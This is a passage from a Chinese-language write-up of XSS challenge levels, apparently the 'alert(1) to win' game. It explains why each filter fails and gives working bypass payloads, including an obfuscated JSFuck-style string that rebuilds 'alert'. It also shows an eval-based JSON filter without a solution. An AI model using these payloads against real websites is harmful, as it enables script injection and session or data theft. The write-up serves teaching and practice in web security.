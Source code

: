```html
<!--<script>#-->
```
Output
```html
<script>console.log("<!--<script>")</script><script>console.log("-->")</script>
```
保存本地执行，发现console如下报错
`Uncaught SyntaxError: Invalid regular expression: missing /`
这个告诉我们，标签的匹配没有了问题，但是在执行javascript代码的时候出现了语法错误，具体来看代码部分
```html
console.log("<!--<script>")</script><script>console.log("-->")
```
报错信息为：非法的正则表达式：缺少了 / ，也便是说`/script><script>console.log("-->")`这个部分被当做了javascript的正则表达式（其形式为`/.../`，需要注意在正则表达式中`()`也要成对出现）,于是构造payload
```html
<!--<script>#)/|alert(1)//-->
```
Output
```html
<script>console.log("<!--<script>")</script><script>console.log(")/|alert(1)//-->")</script>
```

<a name="a016"/></a>
### Skandia 3 (137)
```javascript
function escape(s) {
  if (/[\\<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
payload
```html
");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()//
```

<a name="a017"/></a>
### RFC4627 (101)
```javascript
function escape(text) {
  var i = 0;
  window.the_easy_but_expensive_way_out = function() { alert(i++) };

// "A JSON text can be safely passed into JavaScript's eval() function
// (which compiles and executes a string) if all the characters not
// enclosed in strings are in the set of characters that form JSON
// tokens."

  if (!(/[^,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]/.test(
          text.replace(/"(\\.|[^"\\])*"/g, '')))) {
    try { 
      var val = eval('(' + text + ')');
      console.log('' + val);
    } catch (_) {
      console.log('Crashed: '+_);
    }
  } else {
    console.log('Rejected.');
  }
}
```
